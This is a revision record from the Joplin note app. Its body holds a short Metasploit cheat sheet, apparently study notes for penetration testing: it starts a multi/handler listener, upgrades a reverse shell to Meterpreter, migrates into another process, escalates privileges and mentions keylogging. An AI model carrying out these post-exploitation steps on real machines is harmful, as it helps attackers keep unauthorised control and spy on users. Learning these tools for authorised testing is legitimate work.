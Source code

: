 id: 7c7c1fe9696c4aaf8f85aea6694999e7
parent_id: 
item_type: 1
item_id: 20c131d851d3434889e2262e2ae5f7f5
item_updated_time: 1646016691818
title_diff: "[{\"diffs\":[[1,\"0812f9fb8e424a30921fff6dbba3954c\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"Multi/Handler Meterpreter\\\r\\\n\\\r\\\nFor use with the Migration\\\r\\\n\\\r\\\nSearch the tags for 'meterpreter'\\\r\\\n\\\r\\\n> msfconsole\\\r\\\n> \\\r\\\n> use multi/handler\\\r\\\n> \\\r\\\n> set LHOST 0.0.0.0\\\r\\\n> \\\r\\\n> set LPORT 4444\\\r\\\n> \\\r\\\n> run\\\r\\\n\\\r\\\n## Upgrade shell to meterpreter\\\r\\\n\\\r\\\nCtrl+Z to background the reverse Shell session\\\r\\\n\\\r\\\nUpgrade the session\\\r\\\n\\\r\\\n> sessions -u 1\\\r\\\n\\\r\\\nTo go back to the same session\\\r\\\n\\\r\\\n> sessions 1\\\r\\\n\\\r\\\nTo set the exploit/run as a job\\\r\\\n\\\r\\\n> exploit -j\\\r\\\n\\\r\\\naccess jobs: jobs\\\r\\\n\\\r\\\nkill job: kill &lt;jobID&gt;\\\r\\\n\\\r\\\nUpgraded shell should be in the next session\\\r\\\n\\\r\\\n> sessions 2\\\r\\\n\\\r\\\n## Use Migration\\\r\\\n\\\r\\\nOptions for migration\\\r\\\n\\\r\\\n> ps\\\r\\\n> \\\r\\\n> run post/windows/manage/migrate\\\r\\\n> \\\r\\\n> sysinfo\\\r\\\n> \\\r\\\n> use priv\\\r\\\n\\\r\\\nDo the actions that you wish to do, e.g. key logger\\\r\\\n\\\r\\\n![de83dbc0713f29aab8f1fdaac91f1892.png](:/6f790664a3e549a1aaaf76ae3d2ee405)\\\r\\\n\\\r\\\nhttps://www.puckiestyle.nl/meterpreter-reverse-shell-with-powershell/\\\r\\\n\\\r\\\nid: 0812f9fb8e424a30921fff6dbba3954c\\\r\\\nparent_id: b8fe3751a1b24ee7ad3f067e0a5bfdcd\\\r\\\ncreated_time: 2022-01-31T04:30:19.990Z\\\r\\\nupdated_time: 2022-02-03T12:16:07.991Z\\\r\\\nis_conflict: 0\\\r\\\nlatitude: 0.00000000\\\r\\\nlongitude: 0.00000000\\\r\\\naltitude: 0.0000\\\r\\\nauthor: \\\r\\\nsource_url: \\\r\\\nis_todo: 0\\\r\\\ntodo_due: 0\\\r\\\ntodo_completed: 0\\\r\\\nsource: joplin-desktop\\\r\\\nsource_application: net.cozic.joplin-desktop\\\r\\\napplication_data: \\\r\\\norder: 0\\\r\\\nuser_created_time: 2022-01-31T04:30:19.990Z\\\r\\\nuser_updated_time: 2022-02-03T12:16:07.991Z\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nmarkup_language: 1\\\r\\\nis_shared: 0\\\r\\\nshare_id: \\\r\\\nconflict_original_id: \\\r\\\nmaster_key_id: \\\r\\\ntype_: 1\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1514}]"
metadata_diff: {"new":{"id":"20c131d851d3434889e2262e2ae5f7f5","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016691810,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:21.430Z
created_time: 2022-02-28T02:54:21.430Z
type_: 13